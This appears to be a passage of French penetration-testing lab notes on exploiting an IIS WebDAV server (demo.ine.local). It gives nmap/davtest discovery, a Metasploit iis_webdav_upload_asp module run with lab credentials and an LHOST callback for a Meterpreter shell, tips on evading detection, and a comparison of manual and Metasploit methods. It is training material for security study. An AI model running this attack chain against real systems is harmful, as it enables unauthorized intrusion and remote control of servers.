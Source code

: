 ### Workflow Metasploit complet
```bash
# Phase 1: Découverte (comme avant)
nmap --script http-enum -sV -p 80 demo.ine.local
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav

# Phase 2: Exploitation Metasploit
msfconsole -q
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS demo.ine.local
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit%RAND%.asp
set LHOST your_kali_ip
exploit

# Phase 3: Post-exploitation via Meterpreter
# Session Meterpreter obtenue automatiquement
sysinfo
getuid
shell                                   # Passer en shell Windows
```

### Avantages du module Metasploit
- ✅ **Automatisation complète** : Upload + exécution en une commande
- ✅ **Session Meterpreter** : Accès post-exploitation avancé
- ✅ **Gestion des erreurs** : Retry automatique si échec
- ✅ **Noms aléatoires** : %RAND% évite détection
- ✅ **Nettoyage auto** : Suppression du shell après usage

---

## 🔧 7. Comparaison méthodes d'exploitation

### Méthode manuelle vs Metasploit
| Aspect | Méthode manuelle | Metasploit |
|--------|------------------|------------|
| **Outils** | davtest + cadaver + curl | Module MSF |
| **Complexité** | Plusieurs étapes | Une commande |
| **Shell obtenu** | Webshell HTTP | Meterpreter |
| **Fonctionnalités** | Limitées (HTTP) | Complètes (TCP) |
| **Stealth** | Plus discret | Plus détectable |
| **Debugging** | Manuel | Automatique |

### Quand utiliser chaque méthode ?
**Méthode manuelle :**
- 🎯 **Reconnaissance** approfondie des capabilities
- 🎯 **Stealth** maximum requis
- 🎯 **Webshell simple** suffisant
- 🎯 **Debugging** des permissions WebDAV
